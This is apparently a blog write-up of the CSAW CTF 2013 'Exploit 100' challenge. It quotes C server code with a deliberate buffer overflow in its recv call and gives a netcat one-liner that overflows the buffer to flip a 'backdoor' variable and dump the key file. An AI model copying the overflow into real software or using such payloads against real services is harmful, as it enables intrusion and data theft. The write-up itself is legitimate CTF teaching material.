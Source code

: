 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 100"
---
```


Source for exploit 100 were provided:
```
void handle(int newsock) {
    int backdoor = 0;
	char buffer[1016];
	memset(buffer, 0, 1016);

	send(newsock, "Welcome to CSAW CTF.", 21, 0);
	recv(newsock, buffer, 1020, 0);
	buffer[1015] = 0;

	if ( backdoor ) {
		fd = fopen("./key", "r");
		fscanf(fd, "%s\n", buffer);
		send(newsock, buffer, 512, 0);
	}
	close(newsock);
}
```
To print the key, we need to set `backdoor` to something else than `0`. This can be done by a simple buffer overflow. the `recv` function read 1020 bytes into a buffer of 1016 bytes. The 4 extra bytes are going to overwrite the `backdoor`'s value.

To get the key:
`python -c "print '\xff' * 1020" | nc 128.238.66.212 31337`

